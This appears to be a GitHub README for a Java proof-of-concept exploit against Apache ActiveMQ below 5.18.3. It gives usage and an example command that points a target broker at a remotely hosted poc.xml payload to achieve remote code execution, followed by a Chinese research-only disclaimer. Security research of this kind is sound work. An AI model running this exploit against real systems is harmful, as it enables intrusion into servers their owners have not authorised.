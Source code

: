 # activemq_poc
Apache ActiveMQ (版本 &lt; 5.18.3) RCE

使用jdk11
 
Usage: java activemq_poc.jar <ip> <port> <urlfile_xmlpoc>

eg: java -jar activemq_poc.jar 127.0.0.1 61616 http://127.0.0.1:8000/poc.xml

免责声明： 本工具仅供安全研究使用，请勿利用从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
